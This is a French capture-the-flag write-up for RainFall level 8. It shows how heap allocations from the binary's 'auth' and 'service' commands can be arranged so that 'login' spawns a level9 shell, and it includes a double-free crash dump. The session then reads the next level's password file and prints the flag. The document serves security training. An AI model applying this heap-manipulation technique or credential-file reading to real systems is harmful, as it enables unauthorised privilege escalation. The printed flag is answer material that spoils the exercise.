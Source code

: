 # Level 8

En executant le binaire on voit que ce dernier lance un boucle infinit, en l'analisant dans cuter on peux voir que ce dernier nous permet d'entrer plusieur commande :
- auth
- service
- login
- reset

On essaie donc d'entrer ces commande dans le terminale. Grace a ca et a cutter on peut voir que le programme incremante deux variable globale (auth et service) via malloc voir commande ci dessous : 
`auth` initialise notre pointeur sur la variable _auth et a chaque fois que nous retapons la commande cette dernier s'incremante de 10.
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a018, (nil) 
auth 
0x804a028, (nil) 
auth 
0x804a038, (nil) 
```
`service` initialise la variable service et ajoute 10 par 10 la valeurs de la variable _service avec un strdup.
```
0x804a038, (nil) 
service 
0x804a038, 0x804a048 
service 
0x804a038, 0x804a058 
service 
0x804a038, 0x804a068 
```
`reset` free _auth mais continue a l'afficher car le pointer ne pas mis a `NULL` il suffit de lancer la commande 2 foi de suite pour voir un double free car ce dernier nest pas proteger.
```
reset
0x804a038, 0x804a068
reset
*** glibc detected *** ./level8: double free or corruption (fasttop): 0x0804a038 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x74f82)[0xb7ea0f82]
./level8[0x8048678]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xb7e454d3]
./level8[0x80484d1]
======= Memory map: ========
08048000-08049000 r-xp 00000000 00:10 12376      /home/user/level8/level8
08049000-0804a000 rwxp 00000000 00:10 12376      /home/user/level8/level8
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]
b7e07000-b7e23000 r-xp 00000000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e23000-b7e24000 r-xp 0001b000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e24000-b7e25000 rwxp 0001c000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
b7e2b000-b7e2c000 rwxp 00000000 00:00 0 
b7e2c000-b7fcf000 r-xp 00000000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fcf000-b7fd1000 r-xp 001a3000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd1000-b7fd2000 rwxp 001a5000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd2000-b7fd5000 rwxp 00000000 00:00 0 
b7fd8000-b7fdd000 rwxp 00000000 00:00 0 
b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
b7fde000-b7ffe000 r-xp 00000000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r-xp 0001f000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rwxp 00020000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
Aborted (core dumped)
```
et enfin `login` check dans la memoir si _auth + 32 est egale a 0, si ce n'est pas le cas elle printf password: sinon elle lance le /bin/sh du level9
```
login
Password:
0x804a028, (nil) 
```
Il faut donc init la variable `auth` et incrémente le `service` jusqu'a ce qu'il écrive a `auth + 32`.
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service 
0x804a008, 0x804a018 
service 
0x804a008, 0x804a028 
login 
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$ 
```